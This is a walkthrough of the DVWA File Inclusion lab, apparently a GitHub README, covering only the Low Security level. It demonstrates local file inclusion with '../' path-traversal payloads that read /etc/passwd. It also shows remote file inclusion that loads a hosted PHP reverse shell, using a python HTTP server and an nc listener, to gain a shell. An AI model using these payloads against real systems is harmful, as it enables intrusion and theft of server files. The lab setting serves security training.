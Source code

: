 # File Inclusion

## About

> Some web applications allow the user to specify input that is used directly into file streams or allows the user to upload files to the server.\n
> At a later time the web application accesses the user supplied input in the web applications context. By doing this, the web application is allowing the potential for malicious file execution.\n
> If the file chosen to be included is local on the target machine, it is called "Local File Inclusion (LFI). But files may also be included on other machines, which then the attack is a "Remote File Inclusion (RFI).\n
> When RFI is not an option. using another vulnerability with LFI (such as file upload and directory traversal) can often achieve the same effect.
> 
> Note, the term "file inclusion" is not the same as "arbitrary file access" or "file disclosure".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi1.png?raw=true">
</p>

For this vulnerability we have 3 buttons to file1.php, file2.php and file3.php.
When we access for example the first file, we can see in the URL, the name of the file sent it as the value for the `page` parameter.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi2.png?raw=true">
</p>

This value can be changed to the name of other valid files from the server. Below we can see that we manage to access the file4.php, even if this was not displayed as an option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi3.png?raw=true">
</p>

To move around to the server's directories we can use `../../`. Every `../` will move us to the parent directory.
Using this syntax, we can read files from different places.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi4.png?raw=true">
</p>

For example we can use: `http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../../../etc/passwd` to read all local users on the server.
This payload is using many `../`, because we want to access the `/etc/passwd` from the root path `/`. So we add many `../` to be sure that we arrived at the root path.

The source code looks like this:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
So we can see that the parameter is missing any validation.

The objective of this exercise is to gain access to `../hackable/flags/fi.php` and to read all five quotes.
The exact payload does not work, but going back one more directory will include the file into the page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi5.png?raw=true">
</p>

Ok, we can read some of the quotes, but not all five. Visiting the source code of the page we can see that the fifth quote is commented.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi6.png?raw=true">
</p>

Even if we directly visit the page, not through the file inclusion vulnerability, a prevention measure was put in place for that.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi7.png?raw=true">
</p>

That means that the third one is not accessible via client-side.

## File Inclusion vs Directory Traversal
The difference between these 2 is that through the directory traversal vulnerability we will be able to read files from the system, but with file inclusion, the file is also included in the page.
This is why we were not able to read the fifth quote directly from the page, because the php code was executed, so the comment line was treated as a comment and not included as text in the page.

For example reading `/etc/passwd` will be the same for directory traversal and also for file inclusion because is just a file with text.
Instead trying to read login.php, in directory traversal we will see all the content of the file as text, and in the file inclusion the content will be included in the page, like in the example below:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi8.png?raw=true">
</p>

## Remote File Inclusion
Ok, we still didn't read the third quote, so what can we do?
There are 2 types of file inclusion, local and remote. We already saw in the previous examples the file included from the local, that means that the remote file inclusion will come from a different domain.
So instead of giving local files as parameter, we will give a new address: `http://localhost/DVWA/vulnerabilities/fi/?page=http://example.com/example.php`.
Now, on our page we will be able to see the content of the files from other domains.

RFI is more dangerous than LFI because usually leads to Remote Code Execution.
For the next example we will host a python server and use a reverse shell for the RFI vulnerability.

A php reverse shell can be downloaded from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Edit it with the ip of your machine and the port you want to use, for this example the ip will be 127.0.0.1 and port 4444.
Start a python server at the location of the reverse shell file: `python3 -m http.server 4445`
Start a netcat listener: `nc -lvnp 4444`
And now we can access the URL: `http://localhost/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:4445/rev.php`
Now we have access on the server and we can go and read the `/hackable/flags/fi.php` file.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi9.png?raw=true">
</p>

Is interesting that the fourth message is encrypted in the file, so we were able to read it the first time with the help of file inclusion vulnerability.

## Medium Security

## High Security

## Impossible Security
